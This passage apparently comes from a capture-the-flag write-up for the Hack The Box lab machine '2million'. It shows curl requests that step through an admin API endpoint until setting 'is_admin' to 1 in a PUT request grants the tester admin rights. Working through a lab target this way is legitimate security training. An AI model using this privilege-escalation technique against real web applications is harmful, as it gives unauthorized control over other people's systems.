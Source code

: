 ```bash
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}
```

#### Become admin

Using API methods become admin
```bash
└─$ curl 'http://2million.htb/api/v1/admin/auth' -H 'Cookie: PHPSESSID=3a5bvlopp1219mr73s91em243i'
{"message":false}

└─$ curl 'http://2million.htb/api/v1/admin/settings/update' -H 'Cookie: PHPSESSID=3a5bvlopp1219mr73s91em243i' -X PUT
{"status":"danger","message":"Invalid content type."}                                                                                                                                                             
└─$ curl 'http://2million.htb/api/v1/admin/settings/update' -H 'Cookie: PHPSESSID=3a5bvlopp1219mr73s91em243i' -X PUT -d ''
{"status":"danger","message":"Invalid content type."} 

└─$ curl 'http://2million.htb/api/v1/admin/settings/update' -H 'Cookie: PHPSESSID=3a5bvlopp1219mr73s91em243i' -X PUT -d '{}'
{"status":"danger","message":"Invalid content type."}

└─$ curl 'http://2million.htb/api/v1/admin/settings/update' -b 'PHPSESSID=3a5bvlopp1219mr73s91em243i' -X PUT -H 'Content-Type: application/json' -d '{}'
{"status":"danger","message":"Missing parameter: email"}

└─$ curl 'http://2million.htb/api/v1/admin/settings/update' -b 'PHPSESSID=3a5bvlopp1219mr73s91em243i' -X PUT -H 'Content-Type: application/json' -d '{"email": "test02@2million.htb"}'
{"status":"danger","message":"Missing parameter: is_admin"}

└─$ curl 'http://2million.htb/api/v1/admin/settings/update' -b 'PHPSESSID=3a5bvlopp1219mr73s91em243i' -X PUT -H 'Content-Type: application/json' -d '{"email": "test02@2million.htb", "is_admin": true}'
{"status":"danger","message":"Variable is_admin needs to be either 0 or 1."}

└─$ curl 'http://2million.htb/api/v1/admin/settings/update' -b 'PHPSESSID=3a5bvlopp1219mr73s91em243i' -X PUT -H 'Content-Type: application/json' -d '{"email": "test02@2million.htb", "is_admin": 1}'
{"id":15,"username":"test02","is_admin":1}

└─$ curl 'http://2million.htb/api/v1/admin/auth' -b 'PHPSESSID=3a5bvlopp1219mr73s91em243i'
{"message":true} 
```
